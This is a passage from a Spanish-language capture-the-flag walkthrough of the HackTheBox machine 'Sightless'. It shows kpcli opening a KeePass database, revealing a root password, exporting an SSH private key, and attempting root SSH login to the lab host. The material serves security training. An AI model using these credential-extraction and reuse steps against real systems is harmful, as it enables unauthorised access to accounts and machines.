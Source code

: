 Dado que se trata de una base de datos de _**Keepass 1.x**_, deberemos de descargarnos la herramienta de `kpcli` para poder trabajar con el archivo de la base de datos de contraseñas. Verificaremos que proporcionándole la contraseña maestra abtenida logramos el acceso correctamente.

```bash
❯ kpcli --kdb=Database.kdb
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/>
```

Revisamos que disponemos de de un directorio `/General/sightless.htb/Backup` el cual dispone de un archivo llamado `ssh` y de unas credenciales.

```bash
kpcli:/General/sightless.htb/Backup> ls
=== Entries ===
0. ssh                                                                    
kpcli:/General/sightless.htb/Backup> show -f ssh

 Path: /General/sightless.htb/Backup/
Title: ssh
Uname: root
 Pass: q6gnLTB74L132TMdFCpK
  URL: 
Notes: 
Atchm: id_rsa (3428 bytes)

kpcli:/General/sightless.htb/Backup> 
```

Procederemos a revisar el archivo `ssh`, verificamos que existe un archivo llamado `id_rsa` que parece ser una clave privada SSH, lo exportaremos en nuestro directorio de trabajo.

```bash
kpcli:/General/sightless.htb/Backup> attach ssh
Atchm: id_rsa (3428 bytes)
Choose: (a)dd/(e)xport/(d)elete/(c)ancel/(F)inish? 
Path to file: /home/kali/Desktop/HackTheBox/Linux/Sightless/content
Saved to: /home/kali/Desktop/HackTheBox/Linux/Sightless/content/id_rsa
Atchm: id_rsa (3428 bytes)
```

### Becoming root with backup of id\_rsa file obtained

Le daremos los permisos necesarios a la clave privada encontrada en el directorio `Backup`, y en este caso nos muestraa un mensaje de eror de `libcrypto`.

```bash
❯ chmod 600 id_rsa
❯ ssh -i id_rsa root@10.10.11.32
Load key "id_rsa": error in libcrypto
root@10.10.11.32's password:
```
